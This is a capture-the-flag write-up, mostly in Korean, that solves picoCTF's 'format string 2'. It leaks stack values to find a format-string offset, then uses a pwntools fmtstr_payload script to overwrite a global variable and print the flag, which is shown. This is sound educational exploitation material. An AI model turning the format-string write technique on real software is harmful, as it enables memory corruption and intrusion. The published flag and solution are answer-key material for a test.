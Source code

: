 # [format string 2](https://play.picoctf.org/practice/challenge/448?category=6&difficulty=2&page=1)
<br />

**Description:**
> This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
<br />

**Source Code:**
```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dfe923d97df1df729249ff21202d10ad15d45f4c, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/format_string_2/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

# Exploitation
문제에서 제공되는 정보 및 취약점을 취합해보면 다음과 같습니다.
```text
1. sus == 0x67616c66이면 FLAG 출력
2. printf(buf) 호출 -> FSB 취약점 발생
3. NO PIE
```
문제에서 제공하는 바이너리에는 FSB 취약점이 존재합니다. 해당 취약점을 통해 데이터를 유출시키고, `sus`의 값을 `0x67616c66`로 덮어쓰면 FLAG를 획득할 수 있을 것입니다.
<br />
<br />

### 1. 메모리 유출로 오프셋 구하기
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Here's your input: AAAAAAAA0x7ffebfe913e0.(nil).(nil).(nil).0x400.0x7ffebfe916d0.0x7ffebfe91638.0x3de00ec7.0x7f017e91911c.0x1.0x7ffebfe91700.(nil).(nil).0x4141414141414141.
sus = 0x21737573
You can do better!
```
포맷 스트링으로 출력한 내부 데이터 유출 중에 `AAAAAAAA`의 거리는 14 입니다.
```bash
$ ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
AAAAAAAA.%14$p
Here's your input: AAAAAAAA.0x4141414141414141
sus = 0x21737573
You can do better!
```
<br />

### 2. `sus` 주소 구하기
```bash
$ readelf -s vuln | grep "sus"
    28: 0000000000404060     4 OBJECT  GLOBAL DEFAULT   25 sus
```
`sus`의 주소는 `0x404060` 입니다.

<br />

### 3. `sus` 덮어쓰기
```python
from pwn import *

context.arch = "amd64"

p = process("./vuln")
#p = remote("rhea.picoctf.net", 64169)

pay = fmtstr_payload(14, {0x404060:0x67616c66})

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
[+] Starting local process './vuln': pid 1540
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      \xf0c    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
[*] Got EOF while reading in interactive
$
```
<br />

# FLAG
```bash
$ python3 test.py
[+] Opening connection to rhea.picoctf.net on port 62653: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
$
Here's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}[*] Got EOF while reading in interactive
$
```




